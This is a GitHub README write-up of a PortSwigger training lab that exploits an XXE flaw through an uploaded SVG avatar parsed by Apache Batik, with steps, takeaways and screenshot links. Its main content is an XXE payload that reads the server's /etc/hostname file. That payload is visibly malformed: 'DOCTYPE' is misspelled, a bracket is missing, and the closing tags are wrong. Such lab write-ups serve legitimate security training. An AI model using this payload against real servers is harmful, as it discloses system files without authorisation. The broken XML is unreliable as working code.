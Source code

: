 # Exploiting XXE via image file upload

## 📌 Lab Details
- **Title**: Exploiting XXE via image file upload
- **Difficulty**: Practitioner
- **Category**: XML external entity injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/5d6e610406b1df6c657e111df6297e961a822a0428f00db9f7e7276f4a671a14?referrer=%2fweb-security%2fxxe%2flab-xxe-via-file-upload

## 🔍 Summary
This lab demonstrates how **XXE (XML External Entity)** vulnerabilities can be exploited via image uploads, specifically using an **SVG (XML-based)** image processed by the **Apache Batik library**. By uploading a specially crafted SVG image that references a local file (`/etc/hostname`), the server parses the file and renders its contents as text within the image. You then view the image to extract the hostname and submit it to solve the lab.

## 🛠 Steps to Solve
1. Create a local SVG image with the following content:
   ```sh
   <?xml version="1.0" standalone="yes"?>
   <!DCOTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]
   <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;
   </test>
   </svg>
   ```
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the `/etc/hostname` file in your image.

## 📖 Key Takeaways
- **SVG files** are XML and can carry XXE payloads.
- The **Apache Batik** library is vulnerable to XXE if not properly configured.
- You can exfiltrate data by rendering local file contents as text in an image.
- No need for an external DTD or collaborator server—everything happens on the server internally.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/d62a0bc0-1901-4403-849e-a8902334615c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/fb0089c0-1487-4c1e-a629-7117ac4158b3" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/7a1d7efa-42c3-4550-8694-8282e47c0985" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/9961abab-9b46-4529-8cf7-60011f47d08b" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/1e3297ec-3790-4815-ab90-8974511dc726" />

